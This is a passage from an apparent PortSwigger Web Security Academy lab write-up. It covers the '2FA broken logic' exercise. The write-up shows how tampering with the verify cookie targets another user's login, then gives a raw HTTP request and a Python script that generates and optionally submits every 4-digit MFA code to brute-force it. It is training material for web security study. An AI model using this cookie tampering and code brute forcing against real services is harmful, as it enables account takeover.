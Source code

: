 ```
productId=1&redir=PRODUCT&quantity=1&price=10
```

### Lab: 2FA broken logic

Task: Login as Carlos

Solution: Modify `verify=wiener` to `verify=carlos` to trigger email. Use Burp Suite/Python Script to brute force the `mfa-code`. For Burp Suite, use intruder sniper mode as we are using 1 target and 1 payload.

Burp Request which triggers 2FA

```
GET /login2 HTTP/1.1
Host: 0a03005804dd9faac0988b9c003900d2.web-security-academy.net
Cookie: verify=wiener; session=I2Cs61Q39VRpokDwBJY7meVzOgxr6hTq
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a03005804dd9faac0988b9c003900d2.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Python Script

```
# https://stackoverflow.com/questions/26615756/python-requests-module-sends-json-string-instead-of-x-www-form-urlencoded-param

import requests

brute_force = []

for i in range(10000):
  _string = str(i)
  if len(_string) < 4:
     _string = _string.zfill(4)
  brute_force.append(_string + "\n")
  
  '''
  data = {'mfa-code': _string}
  cookies = {"verify" : "carlos", "session": "7fwMHQxjtXUnWGx2XXLAA9EBjKA60Ug2"}
  url = 'https://0a03005804dd9faac0988b9c003900d2.web-security-academy.net/login2'
  r = requests.post(url,cookies=cookies,data=data)
  if "Incorrect security code" not in r.text:
    print("correct! " + _string)
  else:
    print("wrong")
  '''

f = open("payload2.txt", "w")
f.writelines(brute_force)
f.close()
```